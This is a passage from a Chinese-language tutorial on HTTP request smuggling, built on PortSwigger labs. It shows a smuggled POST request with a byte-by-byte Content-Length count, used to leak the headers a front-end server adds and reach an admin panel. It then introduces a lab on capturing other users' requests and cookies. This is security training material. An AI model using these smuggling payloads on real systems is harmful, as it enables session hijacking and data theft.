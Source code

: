 所以我们需要把 Front 服务器添加的请求头给“隐藏”掉，我们就可以利用 Smuggling 通过 body 的方式把其他 Front 服务器添加的请求头“隐藏”掉，然后我们就可以得到 admin 面板回显：

[![](assets/1698897445-71f32ea9bcf6c0fe713c4ca7f296acae.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124203108.png)

整个流程看起来比较简单，但是仔细做的话，其实 CL 的值比较关键，我们来看看泄露 Front 请求的那个数据包的 CL 值怎么算的：

```bash
0\r\n                                                                                                       --> 3 个字节
\r\n                                                                                                        --> 2 个字节
POST / HTTP/1.1\r\n                                                                         --> 17 个字节
Content-Length: 70\r\n                                                                  --> 20 个字节
Content-Type: application/x-www-form-urlencoded\r\n         --> 49 个字节
\r\n                                                                                                        --> 2 个字节
search=123                                                                                          --> 10 个字节
```

总共是 103 个字节，这里的 CL 也可以不是 70，这里只是控制泄露多少字节的内容。

还有一个比较需要注意的就是如果你不添加 Content-Type 字段的话，需要在最后添加一个`\r\n`，否则会返回 400。

### Capturing other users' requests

既然能拿到中间件请求，当然我们也可以尝试去拿其他用户的请求，也能拿到 Cookie 等，LAB 地址：[Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
> 
> To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.
